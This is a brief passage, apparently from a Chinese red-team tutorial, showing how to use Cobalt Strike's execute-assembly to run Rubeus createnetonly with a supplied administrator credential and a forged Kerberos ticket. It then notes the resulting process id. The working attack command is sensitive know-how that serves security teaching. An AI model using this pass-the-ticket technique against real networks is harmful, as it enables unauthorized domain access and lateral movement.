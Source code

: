 [![](assets/1707953845-64b823cc9ffc13dd458caa133671c262.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040448-d06dca22-c461-1.png)

在 CS 控制台，我们使用 execute-assembly 创建一个新的进程

```plain
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:administrator /password:123456 /ticket:doIF1····0=
```

[![](assets/1707953845-c139016b3ae22fe12d655dfc35d70ba6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040459-d6ed5570-c461-1.png)

控制台会给出伪造票据的进程 id
